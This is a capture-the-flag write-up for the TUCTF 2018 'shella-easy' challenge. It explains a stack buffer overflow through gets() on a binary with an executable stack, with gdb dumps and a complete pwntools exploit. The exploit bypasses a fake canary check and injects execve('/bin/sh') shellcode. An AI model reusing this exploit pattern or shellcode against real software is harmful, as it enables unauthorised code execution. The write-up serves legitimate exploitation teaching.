



# Tuctf 2018 shella-easy

Let's take a look at the binary:




So we can see that we are dealing with a 32 bit binary, with NX turned off (meaning the stack is executable). When we run it, it prints out what looks like a stack address and prompts us for input. When we take a look at the main function, we see this:



So this is pretty similar to the other challenges in this module. There is a char array `input` which can hold 64 bytes, which it prints it's address. After that it runs the function `gets` with `input` as an argument, allowing us to do a buffer overflow attack and get the return address. With that we can get code execution. Our plan is to just push shellcode onto the stack (we can do this since NX is turned off, and we have a stack infoleak), and we know where it is thanks to the infoleak. Then we will overwrite the return address to point to the start of our shellcode. We will use shellcode that pops a shell for us when we run it. The shellcode I will use is from `http://shell-storm.org/shellcode/files/shellcode-827.php`.

Also there is a slight problem with our plan. While in earlier versions of ghidra the decompiled code isn't correct, here it is. We can see there is a check on the `fakeStackCanary` value, and if it fails, `exit` is called. Since when `exit` is called, that means the `RET` instruction which gives us code execution is not called, which means we don't get code execution. We need to ensure this check does not pass, so `exit` is not called, and we get our code execution with the `RET` instruction. To do this, we need to ensure `fakeStackCanary` is equal to `0xdeadbeef` (it shows up as `-0x21524111` in the decompiled code, since that is the signed interpretation of that value):


So we can see that there is a check to see if `fakeStackCanary` is equal to `0xdeadbeef`, and if it is the function does not call `exit(0)` and we get our code execution. When we look at the stack layout in Ghidra, we see that this variable is within our means to overwrite (and it is at an offset of `0x40`). So we just need to overwrite it with `0xdeadbeef` and we will be good to go:



Looking at the stack layout, we can see that `input` is stored at offset `0x4c`, and `fakeStackCanary` is stored at offset `0xc`. So the distance between the start of our input and `fakeStackCanary` should be `0x4c - 0xc = 0x40`. In addition to that, the offset from the start of our input and the return address should be `0x4c`. We can also find the offset between the start of our input and the return address in gdb:

```
gef➤  disas main
Dump of assembler code for function main:
   0x080484db <+0>:	push   ebp
   0x080484dc <+1>:	mov    ebp,esp
   0x080484de <+3>:	push   ebx
   0x080484df <+4>:	sub    esp,0x44
   0x080484e2 <+7>:	call   0x8048410 <__x86.get_pc_thunk.bx>
   0x080484e7 <+12>:	add    ebx,0x1b19
   0x080484ed <+18>:	mov    eax,DWORD PTR [ebx-0x4]
   0x080484f3 <+24>:	mov    eax,DWORD PTR [eax]
   0x080484f5 <+26>:	push   0x14
   0x080484f7 <+28>:	push   0x2
   0x080484f9 <+30>:	push   0x0
   0x080484fb <+32>:	push   eax
   0x080484fc <+33>:	call   0x80483c0 <setvbuf@plt>
   0x08048501 <+38>:	add    esp,0x10
   0x08048504 <+41>:	mov    eax,DWORD PTR [ebx-0x8]
   0x0804850a <+47>:	mov    eax,DWORD PTR [eax]
   0x0804850c <+49>:	push   0x14
   0x0804850e <+51>:	push   0x2
   0x08048510 <+53>:	push   0x0
   0x08048512 <+55>:	push   eax
   0x08048513 <+56>:	call   0x80483c0 <setvbuf@plt>
   0x08048518 <+61>:	add    esp,0x10
   0x0804851b <+64>:	mov    DWORD PTR [ebp-0x8],0xcafebabe
   0x08048522 <+71>:	lea    eax,[ebp-0x48]
   0x08048525 <+74>:	push   eax
   0x08048526 <+75>:	lea    eax,[ebx-0x1a20]
   0x0804852c <+81>:	push   eax
   0x0804852d <+82>:	call   0x8048380 <printf@plt>
   0x08048532 <+87>:	add    esp,0x8
   0x08048535 <+90>:	lea    eax,[ebp-0x48]
   0x08048538 <+93>:	push   eax
   0x08048539 <+94>:	call   0x8048390 <gets@plt>
   0x0804853e <+99>:	add    esp,0x4
   0x08048541 <+102>:	cmp    DWORD PTR [ebp-0x8],0xdeadbeef
   0x08048548 <+109>:	je     0x8048551 <main+118>
   0x0804854a <+111>:	push   0x0
   0x0804854c <+113>:	call   0x80483a0 <exit@plt>
   0x08048551 <+118>:	mov    eax,0x0
   0x08048556 <+123>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08048559 <+126>:	leave  
   0x0804855a <+127>:	ret    
End of assembler dump.
gef➤  b *main+99
Breakpoint 1 at 0x804853e
gef➤  r
Starting program: /Hackery/pod/modules/bof_shellcode/tu18_shellaeasy/shella-easy 
Yeah I'll have a 0xffffd020 with a side of fries thanks
15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd020  →  "15935728"
$ebx   : 0x0804a000  →  0x08049f0c  →  <_DYNAMIC+0> add DWORD PTR [eax], eax
$ecx   : 0xf7faf5c0  →  0xfbad208b
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffd01c  →  0xffffd020  →  "15935728"
$ebp   : 0xffffd068  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0       
$eip   : 0x0804853e  →  <main+99> add esp, 0x4
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd01c│+0x0000: 0xffffd020  →  "15935728"	 ← $esp
0xffffd020│+0x0004: "15935728"
0xffffd024│+0x0008: "5728"
0xffffd028│+0x000c: 0x00000000
0xffffd02c│+0x0010: 0xf7e0760b  →   add esp, 0x10
0xffffd030│+0x0014: 0xf7faf3fc  →  0xf7fb0200  →  0x00000000
0xffffd034│+0x0018: 0x00000000
0xffffd038│+0x001c: 0x00000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048535 <main+90>        lea    eax, [ebp-0x48]
    0x8048538 <main+93>        push   eax
    0x8048539 <main+94>        call   0x8048390 <gets@plt>
 →  0x804853e <main+99>        add    esp, 0x4
    0x8048541 <main+102>       cmp    DWORD PTR [ebp-0x8], 0xdeadbeef
    0x8048548 <main+109>       je     0x8048551 <main+118>
    0x804854a <main+111>       push   0x0
    0x804854c <main+113>       call   0x80483a0 <exit@plt>
    0x8048551 <main+118>       mov    eax, 0x0
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804853e → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0804853e in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffd020 - 0xffffd028  →   "15935728" 
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x804853e in main; saved eip = 0xf7defe81
 Arglist at 0xffffd068, args: 
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebx at 0xffffd064, ebp at 0xffffd068, eip at 0xffffd06c
```

So we can see that the offset is `0xffffd06c - 0xffffd020 = 0x4c`, between the start of our input and the saved return address. 

So our payload will be this. We will start off with the shellcode. Then after the shellcode, we will add on filler bytes, until we reach offset `0x40` from the start of our input, which is the value we need to overwrite. We will place `0xdeadbeef` therem abd then the final `0x8` bytes to the return address. Then we will use the infoleak, and place the address of our shellcode there. With that we have everything we need to make the exploit:

```
from pwn import *

target = process('./shella-easy')
#gdb.attach(target, gdbscript = 'b *0x804853e')

# Scan in the first line of text, parse out the infoleak
leak = target.recvline()
leak = leak.strip(b"Yeah I'll have a ")
leak = leak.strip(b" with a side of fries thanks\n")
shellcodeAdr = int(leak, 16)

# Make the payload
payload = b""
# This shellcode is from: http://shell-storm.org/shellcode/files/shellcode-827.php`
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
payload += b"0"*(0x40 - len(payload)) # Padding to the local_c variable
payload += p32(0xdeadbeef) # Overwrite the local_c variable with 0xdeadbeef
payload += b"1"*8 # Padding to the return address
payload += p32(shellcodeAdr) # Overwrite the return address to point to the start of our shellcode

# Send the payload
target.sendline(payload)
target.interactive()
```

When we run the exploit:


Just like that we popped a shell. Also one more thing I want to show, the shellcode we push on the stack can be disassembled to assembly instructions. Let's break right at the `ret` instruction which executes our shellcode (I did this by editing the breakpoint in the exploit to `0x0804855a`, then running it):

```
Breakpoint 1, 0x0804855a in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x31313131 ("1111"?)
$ecx   : 0xf7f475a0  →  0xfbad208b
$edx   : 0xf7f4887c  →  0x00000000
$esp   : 0xfff4cb1c  →  0xfff4cad0  →  0x6850c031
$ebp   : 0x31313131 ("1111"?)
$esi   : 0xf7f47000  →  0x001b1db0
$edi   : 0xf7f47000  →  0x001b1db0
$eip   : 0x0804855a  →  <main+127> ret 
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────── stack ────
0xfff4cb1c│+0x0000: 0xfff4cad0  →  0x6850c031	 ← $esp
0xfff4cb20│+0x0004: 0x00000000
0xfff4cb24│+0x0008: 0xfff4cbb4  →  0xfff4e297  →  "./shella-easy"
0xfff4cb28│+0x000c: 0xfff4cbbc  →  0xfff4e2a5  →  "QT_QPA_PLATFORMTHEME=appmenu-qt5"
0xfff4cb2c│+0x0010: 0x00000000
0xfff4cb30│+0x0014: 0x00000000
0xfff4cb34│+0x0018: 0x00000000
0xfff4cb38│+0x001c: 0xf7f47000  →  0x001b1db0
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048551 <main+118>       mov    eax, 0x0
    0x8048556 <main+123>       mov    ebx, DWORD PTR [ebp-0x4]
    0x8048559 <main+126>       leave  
 →  0x804855a <main+127>       ret    
   ↳  0xfff4cad0                  xor    eax, eax
      0xfff4cad2                  push   eax
      0xfff4cad3                  push   0x68732f2f
      0xfff4cad8                  push   0x6e69622f
      0xfff4cadd                  mov    ebx, esp
      0xfff4cadf                  push   eax
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804855a → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  s
0xfff4cad0 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x31313131 ("1111"?)
$ecx   : 0xf7f475a0  →  0xfbad208b
$edx   : 0xf7f4887c  →  0x00000000
$esp   : 0xfff4cb20  →  0x00000000
$ebp   : 0x31313131 ("1111"?)
$esi   : 0xf7f47000  →  0x001b1db0
$edi   : 0xf7f47000  →  0x001b1db0
$eip   : 0xfff4cad0  →  0x6850c031
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
────────────────────────────────────────────────────────────────────────────────────── stack ────
0xfff4cb20│+0x0000: 0x00000000	 ← $esp
0xfff4cb24│+0x0004: 0xfff4cbb4  →  0xfff4e297  →  "./shella-easy"
0xfff4cb28│+0x0008: 0xfff4cbbc  →  0xfff4e2a5  →  "QT_QPA_PLATFORMTHEME=appmenu-qt5"
0xfff4cb2c│+0x000c: 0x00000000
0xfff4cb30│+0x0010: 0x00000000
0xfff4cb34│+0x0014: 0x00000000
0xfff4cb38│+0x0018: 0xf7f47000  →  0x001b1db0
0xfff4cb3c│+0x001c: 0xf7f8ec04  →  0x00000000
──────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
 → 0xfff4cad0                  xor    eax, eax
   0xfff4cad2                  push   eax
   0xfff4cad3                  push   0x68732f2f
   0xfff4cad8                  push   0x6e69622f
   0xfff4cadd                  mov    ebx, esp
   0xfff4cadf                  push   eax
──────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped, reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xfff4cad0 → xor eax, eax
─────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/10i 0xfff4cad0
=> 0xfff4cad0:	xor    eax,eax
   0xfff4cad2:	push   eax
   0xfff4cad3:	push   0x68732f2f
   0xfff4cad8:	push   0x6e69622f
   0xfff4cadd:	mov    ebx,esp
   0xfff4cadf:	push   eax
   0xfff4cae0:	push   ebx
   0xfff4cae1:	mov    ecx,esp
   0xfff4cae3:	mov    al,0xb
   0xfff4cae5:	int    0x80
```

There we can see our shellcode.
